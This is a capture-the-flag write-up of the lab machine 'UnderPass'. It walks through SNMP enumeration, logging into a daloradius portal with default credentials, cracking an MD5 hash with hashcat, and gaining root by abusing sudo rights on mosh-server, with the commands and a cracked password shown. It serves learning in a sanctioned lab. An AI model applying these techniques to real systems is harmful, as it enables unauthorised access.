



## Overview
UnderPass is a machine that runs Linux with an easy difficulty level. During enumeration, I used `snmpcheck` to probe SNMP Services (UDP port 161). The tool revealed a domain name in its output. Further research indicated the server was associated with daloradius, a RADIUS management tool. Searching for the daloradius on Google led me to a daloradius login portal.  Using default credentials, I gained access. Within the dashboard, I navigate to the `User Management` section and discovered stored SSH credentials. These credentials allowed me to log into the machine via SSH as a low-privilege user. The user had sudo privileges to execute `mosh-server` as root, By exploiting a misconfiguration in the `/etc/sudoers` file--I escalated privileges to root.

## Information Gathering
During the information gathering phase, I ran Nmap to enumerate open ports and services. The scan results appeared unusual: while port 80/tcp typically reveals a domain name (via HTTP headers or page content), this machine displayed only the default Apache `http-title`. Since this suggested a lack of custom web content, I prioritized other attack vectors.

```shell
➜ underpass  nmap -sCV --min-rate 1000 -T4 10.10.11.48 -oA nmap/underpass -Pn
Starting Nmap 7.95 ( https://nmap.org ) at xxxx-xx-xx xx:xx UTC
Nmap scan report for 10.10.11.48 (10.10.11.48)
Host is up (0.061s latency).
Not shown: 911 filtered tcp ports (no-response), 87 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 48:b0:d2:c7:29:26:ae:3d:fb:b7:6b:0f:f5:4d:2a:ea (ECDSA)
|_  256 cb:61:64:b8:1b:1b:b5:ba:b8:45:86:c5:16:bb:e2:a2 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
{: .nolineno}

During further reconnaissance, I enumerated UDP ports and identified that 161/udp was revealing SNMP (Simple Network Management Protocol) running on the service.

```shell
➜ underpass  sudo nmap -sU --top-ports 100 --min-rate 1000 -T4 10.10.11.48 -oA nmap/udp -Pn
Starting Nmap 7.95 ( https://nmap.org ) at xxxx-xx-xx xx:xx UTC
Nmap scan report for underpass.htb (10.10.11.48)
Host is up (1.5s latency).
Not shown: 985 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
137/udp   closed netbios-ns
161/udp   open   snmp
<SNIP>
```
{: .nolineno}

I executed `snmpcheck` to enumerate the SNMP service. This revealed domain names and notable details, such as a `daloradius` server (a RADIUS management platform) and user email addresses. 

```shell
➜ underpass  snmpcheck 10.10.11.48
snmpcheck v1.9.1 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 10.10.11.48:161 using SNMPv1 and community 'public'

[*] System information:

  Host IP address               : 10.10.11.48
  Hostname                      : UnDerPass.htb is the only daloradius server in the basin!
  Description                   : Linux underpass 5.15.0-126-generic #136-Ubuntu SMP Wed Nov 6 10:38:22 UTC 2024 x86_64
  Contact                       : steve@underpass.htb
<SNIP>
```
{: .nolineno}

After discovering the domain names, I added them to the `/etc/hosts` file to resolve the domain locally. Then I researched `daloradius` and located its GitHub repository. By typing `login.php` in the search bar it was leading to the login portal.



## Exploitation
Using default credentials for the 'operator' role, I logged into the daloradius dashboard and was redirected to the `User Management` section. There, I discovered stored credentials, including a username and an associated password hash.


After obtaining the stored credentials, I used `hashcat` to crack the password hash (identified as mode 0 | MD5). Due to hardware limitations preventing local execution, I leveraged a VPS (Virtual Private Server) for resource-intensive password cracking.

```shell
➜ underpass  hashcat hash.txt --identify
The following 11 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
    900 | MD4                                                        | Raw Hash
      0 | MD5                                                        | Raw Hash
<SNIP>

➜ underpass  scp -P xx hash.txt root@konek.securityhub.id:~/hash
root@konek.securityhub.id's password:
hash.txt                                                100%   33     0.1KB/s   00:00

root@6c483be0c2ec:~/hash# hashcat -m 0 hash.txt ../rockyou.txt
<SNIP>
412dd4759978acfcc81deab01b382403:underwaterfriends
<SNIP>
```
{: .nolineno}

## Post-Exploitation
After obtaining the plaintext password from the cracked hash, I authenticated to the target system via SSH service as the `svcMosh` user. Running `sudo -l` revealed that this user could execute `/usr/bin/mosh-server` with root privileges without a password. Further research into `mosh-server` led me to its manual page, which indicated the tool can be executed locally alongside `mosh-client` to establish a connection.

```shell
svcMosh@underpass:~$ sudo -l
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-server

svcMosh@underpass:~$ sudo mosh-server

MOSH CONNECT 60001 Y0a2q1Ocf1QHf+mwpHXwDg

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 3893]
```
{: .nolineno}

After exporting the encryption key generated by `mosh-server` into the `MOSH_KEY` environment variable, I executed `mosh-client` by specifying the target IP address and UDP port. This established a connection to the server with the pre-shared key.

```shell
➜ underpass  MOSH_KEY=Y0a2q1Ocf1QHf+mwpHXwDg mosh-client 10.10.11.48 60001
```
{: .nolineno}


